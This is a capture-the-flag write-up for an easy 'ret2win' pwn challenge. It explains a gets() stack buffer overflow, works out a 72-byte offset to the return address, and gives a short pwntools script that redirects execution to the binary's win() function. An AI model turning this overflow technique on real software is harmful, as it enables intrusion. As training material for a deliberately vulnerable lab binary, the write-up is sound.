

## Challenge Name : Returning to Winning
Category: PWN
Points:  50
Difficulty: Easy

Artifact files:
* [ret2win](ret2win)

Description: A simple pwn challenge

### Observations

For anyone who has a bit of experience in pwn, the name of this challenge pretty much gives it away instantly.
ret2win is the most basic type of buffer overflow challenge, replacing the return address of the function with
an arbitrary one of our own. Usually with one present in the binary made to print us the flag.

Running the binary, we just get prompted with a single sentence : "Give me something and shall give you something in return."
Then taking our input and exiting after.

Now looking at the source code using radare2, we can see that the main function redirects it's flow to a vulnerable function
which prints the first sentence and takes input using the **gets()** method. If you're familiar with this again, you'll know that
gets doesn't do any boundary check so this is highly vulnerable to buffer overflows.


We can also see our buffer is stored at rbp-0x40 which is 64 bytes from the base of the stack. Knowing that
rbp has also been pushed before that and is of size 8 bytes we can add those two lengths together and get our
RIP offset : 64 + 8 = 72

We can also use a cyclic as an alternate method but it's kind of overkill in this scenario.

And now all we need is a **win()** function. This is where I started to be confused since my goto tool,
radare2, didn't find it at first so I had to check on other softwares to find it. Ghidra worked the best for me,
still confused as to why it didn't show up on most other tools so if anyone wants to explain it to me, you're more
than welcome.



So now we have all we need ! The offset to RIP with 72 bytes and the address of our win() function to return to at 0x00401196
Now same as before we can make it with a python one liner but just for a cleaner writeup i'll make a script again.

### Exploitation

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./ret2win')

if args.REMOTE:
    io = remote() # put your remote here
else:
    io = process()

io.sendlineafter(b'.', b'A'*72 + pack(0x00401196))
io.interactive()
io.close()
```

After running the script, we get the following output : 


And that's it for this challenge :)

[Back](../../README.md)